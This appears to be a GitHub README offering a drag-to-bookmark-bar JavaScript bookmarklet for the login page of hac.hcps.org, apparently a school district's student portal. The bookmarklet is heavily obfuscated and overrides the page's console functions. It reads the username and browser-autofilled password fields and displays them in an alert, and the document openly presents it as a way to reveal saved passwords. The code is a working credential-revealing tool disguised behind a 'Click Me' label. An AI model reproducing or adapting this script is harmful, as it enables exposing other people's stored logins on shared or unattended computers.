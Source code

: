 # Drag this to your bookmark bar (CONTROL + SHIFT + B to toggle):
[Click Me](function _0x3395(_0x222fbb,_0x11ec37){var _0x238c02=_0x4f69();return _0x3395=function(_0x293c03,_0x4cec5f){_0x293c03=_0x293c03-0x10e;var _0x527a22=_0x238c02[_0x293c03];return _0x527a22;},_0x3395(_0x222fbb,_0x11ec37);}var _0x14873b=_0x3395;(function(_0x4a2c34,_0x5c26c5){var _0x2a4b27=_0x3395,_0x558401=_0x4a2c34();while(!![]){try{var _0xd2c9ea=-parseInt(_0x2a4b27(0x10f))/0x1+parseInt(_0x2a4b27(0x122))/0x2+parseInt(_0x2a4b27(0x123))/0x3+parseInt(_0x2a4b27(0x126))/0x4+-parseInt(_0x2a4b27(0x113))/0x5*(parseInt(_0x2a4b27(0x11b))/0x6)+-parseInt(_0x2a4b27(0x129))/0x7*(-parseInt(_0x2a4b27(0x116))/0x8)+parseInt(_0x2a4b27(0x111))/0x9*(-parseInt(_0x2a4b27(0x127))/0xa);if(_0xd2c9ea===_0x5c26c5)break;else _0x558401['push'](_0x558401['shift']());}catch(_0x1c1df4){_0x558401['push'](_0x558401['shift']());}}}(_0x4f69,0x1f70c));function _0x4f69(){var _0x12969b=['175772uWdWwF','10tlrEyP','apply','3934LQLCqh','LogOnDetails_UserName','107800kNMnfz','{}.constructor(\x22return\x20this\x22)(\x20)','1793223vcYkYm','value','15230zhXlji','search','prototype','344gvuHQD','(((.+)+)+)+$','length','toString','getElementById','132YNQnxT','bind','log','warn','console','__proto__','info','440804vFxNqN','642984vIIjBd','constructor','exception'];_0x4f69=function(){return _0x12969b;};return _0x4f69();}var _0x162192=(function(){var _0x3acb1d=!![];return function(_0xbdbca9,_0x565e58){var _0x397366=_0x3acb1d?function(){var _0x2c7a57=_0x3395;if(_0x565e58){var _0x47f73e=_0x565e58[_0x2c7a57(0x128)](_0xbdbca9,arguments);return _0x565e58=null,_0x47f73e;}}:function(){};return _0x3acb1d=![],_0x397366;};}()),_0x5e7fdd=_0x162192(this,function(){var _0xe0c974=_0x3395;return _0x5e7fdd[_0xe0c974(0x119)]()[_0xe0c974(0x114)](_0xe0c974(0x117))[_0xe0c974(0x119)]()[_0xe0c974(0x124)](_0x5e7fdd)[_0xe0c974(0x114)](_0xe0c974(0x117));});_0x5e7fdd();var _0x4cec5f=(function(){var _0x533e3a=!![];return function(_0x2f8380,_0x60bab7){var _0x4b3e4a=_0x533e3a?function(){var _0x7d9a6f=_0x3395;if(_0x60bab7){var _0xb7c5fd=_0x60bab7[_0x7d9a6f(0x128)](_0x2f8380,arguments);return _0x60bab7=null,_0xb7c5fd;}}:function(){};return _0x533e3a=![],_0x4b3e4a;};}()),_0x293c03=_0x4cec5f(this,function(){var _0xb013c2=_0x3395,_0x1ba103=function(){var _0x59040a=_0x3395,_0x43027c;try{_0x43027c=Function('return\x20(function()\x20'+_0x59040a(0x110)+');')();}catch(_0x388e78){_0x43027c=window;}return _0x43027c;},_0x26ef19=_0x1ba103(),_0x448ec5=_0x26ef19[_0xb013c2(0x11f)]=_0x26ef19[_0xb013c2(0x11f)]||{},_0x59b2a5=[_0xb013c2(0x11d),_0xb013c2(0x11e),_0xb013c2(0x121),'error',_0xb013c2(0x125),'table','trace'];for(var _0x42aa86=0x0;_0x42aa86<_0x59b2a5[_0xb013c2(0x118)];_0x42aa86++){var _0x2e8ea7=_0x4cec5f[_0xb013c2(0x124)][_0xb013c2(0x115)][_0xb013c2(0x11c)](_0x4cec5f),_0x40e399=_0x59b2a5[_0x42aa86],_0x4f7d1e=_0x448ec5[_0x40e399]||_0x2e8ea7;_0x2e8ea7[_0xb013c2(0x120)]=_0x4cec5f[_0xb013c2(0x11c)](_0x4cec5f),_0x2e8ea7[_0xb013c2(0x119)]=_0x4f7d1e[_0xb013c2(0x119)][_0xb013c2(0x11c)](_0x4f7d1e),_0x448ec5[_0x40e399]=_0x2e8ea7;}});_0x293c03();_0x28220e:alert(document[_0x14873b(0x11a)](_0x14873b(0x10e))[_0x14873b(0x112)]+':\x20'+document[_0x14873b(0x11a)]('LogOnDetails_Password')['value']);)

# Click on it while on hac.hcps.org's login page and it will alert the autofilled password if it exists.

